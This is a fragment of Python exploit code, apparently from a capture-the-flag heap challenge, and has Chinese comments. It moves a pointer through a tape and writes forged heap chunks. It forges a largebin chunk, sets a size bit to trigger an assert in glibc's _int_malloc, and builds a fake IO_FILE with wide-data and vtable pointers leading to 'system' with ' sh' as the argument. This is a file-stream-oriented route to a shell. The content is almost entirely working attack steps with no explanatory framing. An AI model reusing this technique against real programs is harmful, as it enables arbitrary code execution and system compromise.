 ```python
    ptr_add(0x800+0x20, b'\x10', 0x10)

    ptr_add(0x1000)
    ptr_sub(0x1000+0x10+(0x1000)+0x8, b'\xe0')

    ptr_sub(0x28+0x800-0x18)
    # 伪造 bk_size
    read_bytes2(p64(u64_ex("bk_size")), True)
    ptr_add2(0x800-0x20+0x10, b'\x10')
    read_bytes2(b'\x20')
    ptr_add2(0x18)
    # 伪造一个比largebin中的chunk小的chunk
    read_bytes2(p64(0x801), True)
    
    ptr_add2(0x7f0-0x20+0x20, b'\xe0')
    read_bytes2(p64(0x800)+p64(0x20), True)
    ptr_add2(0x820, b'\x11')

    ptr_add2(0x2000-0x10)
    # 回到 伪造的 0x800 chunk
    ptr_sub2(0x2000+0x10+0x2000-0x10, b'\x10', 0x10)
    ptr_sub2(0x20+0x1000+0x10, b'\x11', 0x10)
    # 伪造 IO_FILE 结构体
    # set f->flags
    read_bytes2(p64(u64_ex("  sh")), True)
    # 设置size 的 A 位用于触发 _int_malloc 中 的 assert
    read_bytes2(p64(0x811|4), True)
    # set f->_lock
    ptr_add2(0x88-0x10)
    read_bytes2(p64(u64_ex("_lock")), True)
    # set f->_wide_data
    ptr_add2(0xa0-0x90, b'\xd0', 0x10)
    read_bytes2(p64(u64_ex("widedata")), True)
    ptr_add2(0x30)
    # set f->vtable
    read_bytes2(p64(u64_ex("fvtable")), True)
    # 返回到 0x2000 chunk (在 unsorted bin 中) 
    ptr_add2(0xf30, b'\x11', 0x10)
    # 伪造一个 0x820 chunk 
    code += b'>'*0x8
    read_bytes2(p64(0x821), True)
    # 修复 fd
    ptr_add2(0x810, b'\xe0', 0x10)
    # set prev_size and size
    read_bytes2(p64(0x820), True)
    read_bytes2(p64(0x60), True)

    ## 移动至 0x4000 chunk
    ptr_add2(0x1800-0x10)
    # 伪造 _wide_data
    ptr_add2(0x18)
    # set _wide_data->_IO_write_base
    read_bytes2(p64(0), True)
    # 
    ptr_add2(0x10)
    # set _wide_data->_IO_buf_base
    read_bytes2(p64(0), True)
    ptr_add2(0xe0-0x30-0x8)
    read_bytes2(p64(u64_ex("wvtable")),True)
    read_bytes2(p64(u64_ex("system")),True)
    ptr_add2(0x4000-0xf0)

    #debug(0x2D59)
```